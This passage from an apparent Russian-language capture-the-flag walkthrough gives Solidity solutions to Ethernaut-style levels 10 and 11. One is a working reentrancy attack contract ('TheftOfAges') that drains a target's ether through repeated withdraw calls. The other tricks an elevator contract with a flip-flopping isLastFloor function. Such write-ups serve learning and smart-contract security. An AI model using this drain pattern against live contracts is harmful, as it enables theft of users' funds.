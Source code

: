 ```
    }
}
```

### 10. Re-entrancy (***)
Классический пример - классическая атака
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;


interface IReentrance {
    function donate(address _to) external payable;
    function balanceOf(address _who) external view returns (uint balance);
    function withdraw(uint _amount) external;
}

contract TheftOfAges {
    event Response(bool success, bytes data);
    IReentrance reentrance;

    constructor(address r) public payable {
        reentrance = IReentrance(r);
        reentrance.donate{value: msg.value}(address(this));
    }

    function withdraw(uint _amount) public {
        reentrance.withdraw(_amount);
    }

    receive() external payable {
        uint256 value = reentrance.balanceOf(address(this));
        uint256 amount = address(reentrance).balance;
        if(value > amount) value = amount;
            reentrance.withdraw(value);
    }
}
```


### 11. Elevator (**)
В этой задача так же нужно пистаь свой контракт в котором isLastFloor() будет возвращать попеременно false/true
Л - Логика!
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint _floor) external;
}

contract FlipElevator {
    uint256 counter = 1;

    function isLastFloor(uint256 floor) external returns(bool res) {
        counter++;
        res = (counter & 1) == 1;
    }

    function ToTheMoon(address elevator, uint256 top) public {
        IElevator(elevator).goTo(top);
    }
```